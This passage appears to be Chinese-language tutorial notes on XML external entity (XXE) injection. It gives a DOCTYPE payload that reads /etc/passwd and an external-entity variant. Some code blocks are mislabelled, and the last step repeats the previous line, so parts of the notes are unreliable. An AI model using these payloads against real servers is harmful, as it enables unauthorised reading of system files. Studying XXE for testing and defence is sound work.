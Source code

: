     标签、Accept: application/xml, text/xml

    2、确定是否有回显位置，或无回显，下图有回显。​

    ![image](assets/image-20240922191941-a8ambig.png)​

3. 写入payload。

    ```python
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY[
    <!ENTITY a SYSTEM "file:///etc/passwd">
    ]>
    ```

    ​![image](assets/image-20240922192506-rz3b5vo.png)​
4. 另一种情况是外部参数实体。

    ```python
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ```

5. http服务

    ```bash
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ```
